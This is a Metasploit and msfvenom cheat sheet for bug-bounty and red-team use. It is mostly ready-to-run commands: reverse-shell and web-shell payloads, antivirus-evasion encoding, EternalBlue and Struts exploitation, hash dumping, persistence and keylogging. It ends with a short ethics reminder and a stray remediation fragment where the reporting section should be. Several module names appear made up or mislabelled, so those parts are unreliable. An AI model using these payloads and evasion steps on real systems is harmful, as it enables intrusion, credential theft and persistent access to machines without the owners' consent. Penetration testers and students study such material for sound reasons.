Metasploit Reverse Shell Cheat Sheet
This cheat sheet provides a comprehensive guide to using Metasploit for bug bounty and red team operations, focusing on generating reverse shells, exploiting vulnerabilities, and performing reconnaissance. It includes commands for msfvenom, Metasploit modules, and workflows for common tasks. All commands are designed to align with ethical hacking principles, and users must adhere to responsible disclosure and scope defined by bug bounty programs.

Table of Contents
	1	Msfvenom Payload Creation
	◦	Windows Reverse Shells
	◦	Linux Reverse Shells
	◦	Web Shells (PHP, ASP, JSP, WAR)
	◦	Encoding and Evasion Techniques
	2	Metasploit Console Commands
	◦	Initial Setup
	◦	Payload Configuration
	◦	Exploitation Modules
	◦	Post-Exploitation Modules
	3	Reconnaissance with Metasploit
	◦	Scanning and Enumeration
	◦	OSINT Integration
	4	Exploitation Workflow
	◦	Setting Up Listeners
	◦	Exploiting Common Vulnerabilities
	5	Post-Exploitation
	◦	Privilege Escalation
	◦	Persistence
	◦	Data Exfiltration
	6	Bypassing Security Measures
	◦	AV Evasion
	◦	WAF Bypassing
	7	Reporting for Bug Bounty
	◦	Generating Professional Reports
	8	Ethical Hacking Reminder

1. Msfvenom Payload Creation
msfvenom is used to generate payloads for various platforms. Replace and with your attacking machine’s IP and port.
Windows Reverse Shells
	•	Basic Reverse Shell (TCP) msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= -f exe -o shell_reverse.exe
	•	
	•	Meterpreter Reverse Shell (TCP) msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o meterpreter_reverse.exe
	•	
	•	Encoded to Avoid AV Detection msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_encoded.exe
	•	
	•	Stageless Meterpreter (x64) msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST= LPORT= -f exe -o meterpreter_x64.exe
	•	
Linux Reverse Shells
	•	Basic Reverse Shell (x86) msfvenom -p linux/x86/shell_reverse_tcp LHOST= LPORT= -f elf -o shell.elf
	•	
	•	Meterpreter Reverse Shell (x64) msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST= LPORT= -f elf -o msf.bin
	•	
	•	List Linux Meterpreter Payloads msfvenom --list | grep linux.*meterpreter
	•	
Web Shells
	•	PHP Meterpreter Reverse Shell msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php
	•	
	•	ASP Reverse Shell msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
	•	
	•	JSP Reverse Shell msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
	•	
	•	WAR Reverse Shell msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
	•	
Encoding and Evasion Techniques
	•	Encode Payload to Bypass AV msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -e x86/shikata_ga_nai -i 5 -o encoded_shell.exe
	•	
	•	Custom Encoder msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -e x86/alpha_mixed -i 3 -o alpha_encoded_shell.exe
	•	
	•	List Available Encoders msfvenom --list encoders
	•	

2. Metasploit Console Commands
Start Metasploit:
msfconsole
Initial Setup
	•	Update Metasploit msfupdate
	•	
	•	Search for Modules search 
	•	
	•	Use a Module use 
	•	
	•	Show Module Options show options
	•	
	•	Set Module Options set  
Payload Configuration
	•	Set Payload set payload 
	•	
	•	Show Available Payloads show payloads
	•	
	•	Set Listener (Multi/Handler) use exploit/multi/handler
	•	set payload windows/meterpreter/reverse_tcp
	•	set LHOST 
	•	set LPORT 
	•	exploit
	•	
Exploitation Modules
	•	Example: EternalBlue (MS17-010) use exploit/windows/smb/ms17_010_eternalblue
	•	set RHOSTS 
	•	set payload windows/x64/meterpreter/reverse_tcp
	•	set LHOST 
	•	set LPORT 
	•	exploit
	•	
	•	Example: Apache Struts RCE (CVE-2017-5638) use exploit/multi/http/struts2_content_type_rce
	•	set RHOSTS 
	•	set RPORT 
	•	set TARGETURI 
	•	set payload java/meterpreter/reverse_tcp
	•	set LHOST 
	•	set LPORT 
	•	exploit
	•	
Post-Exploitation Modules
	•	Check Privilege Level getuid
	•	
	•	Escalate Privileges (Windows) use post/windows/escalate/getsystem
	•	exploit
	•	
	•	Dump Hashes (Windows) use post/windows/gather/hashdump
	•	exploit
	•	
	•	List Running Processes ps
	•	
	•	Migrate to Another Process migrate 
	•	

3. Reconnaissance with Metasploit
Scanning and Enumeration
	•	Nmap Integration db_nmap -sV -p- 
	•	
	•	SMB Enumeration use auxiliary/scanner/smb/smb_version
	•	set RHOSTS 
	•	run
	•	
	•	HTTP Enumeration use auxiliary/scanner/http/dir_scanner
	•	set RHOSTS 
	•	set THREADS 10
	•	run
	•	
	•	Discover Open Ports and Services use auxiliary/scanner/portscan/tcp
	•	set RHOSTS 
	•	set PORTS 1-65535
	•	run
	•	
OSINT Integration
	•	DNS Enumeration use auxiliary/gather/dns_enum
	•	set DOMAIN 
	•	run
	•	
	•	HTTP Header Analysis use auxiliary/scanner/http/http_header
	•	set RHOSTS 
	•	run
	•	

4. Exploitation Workflow
Setting Up Listeners
	•	Start Multi/Handler for Reverse Shell use exploit/multi/handler
	•	set payload windows/meterpreter/reverse_tcp
	•	set LHOST 
	•	set LPORT 
	•	exploit
	•	
Exploiting Common Vulnerabilities
	•	SQL Injection (Manual Testing with Metasploit) use auxiliary/scanner/http/sqlmap
	•	set RHOSTS 
	•	set TARGETURI 
	•	run
	•	
	•	XSS Payload Delivery use exploit/multi/browser/xss_injection
	•	set TARGETURI 
	•	set PAYLOAD 
	•	exploit
	•	
	•	File Inclusion (LFI/RFI) use exploit/multi/http/rfi_remote_file_inclusion
	•	set RHOSTS 
	•	set TARGETURI 
	•	exploit
	•	

5. Post-Exploitation
Privilege Escalation
	•	Windows Local Exploit Suggester use post/multi/recon/local_exploit_suggester
	•	set SESSION 
	•	run
	•	
	•	Linux Privilege Escalation use post/linux/gather/checkvm
	•	run
	•	
Persistence
	•	Windows Persistence use post/windows/manage/persistence_exe
	•	set SESSION 
	•	set EXE_PATH 
	•	run
	•	
	•	Linux Cron Persistence use post/linux/manage/cron_persistence
	•	set SESSION 
	•	run
	•	
Data Exfiltration
	•	Download Files download  
	•	
	•	Keylogger use post/windows/capture/keylog_recorder
	•	set SESSION 
	•	run
	•	

6. Bypassing Security Measures
AV Evasion
	•	Use Custom Encoders msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -e x86/shikata_ga_nai -i 10 -o av_bypass.exe
	•	
	•	** Veil Framework Integration** (External Tool) Generate payloads with Veil to further obfuscate: veil -t Evasion -p c/meterpreter/rev_tcp --msfvenom windows/meterpreter/reverse_tcp
	•	
WAF Bypassing
	•	Modify Payloads for WAF Evasion Use obfuscated payloads or encode parameters: msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw | base64 > shell_b64.php
	•	
	•	Test WAF Rules use auxiliary/scanner/http/waf_detect
	•	set RHOSTS 
	•	run
	•	

**Remediation**:  
- Patch to [latest version].  
- Implement input validation and WAF rules.  
- Restrict file upload functionality.

**Attachments**:  
- [Screenshots, logs, or videos]

8. Ethical Hacking Reminder
	•	Responsible Disclosure: Always report findings to the bug bounty program and adhere to their scope and rules.
	•	Authorized Testing Only: Do not test systems without explicit permission. Unauthorized testing is illegal and unethical.
	•	Respect Scope: Stay within the defined scope of the bug bounty program to avoid legal issues.



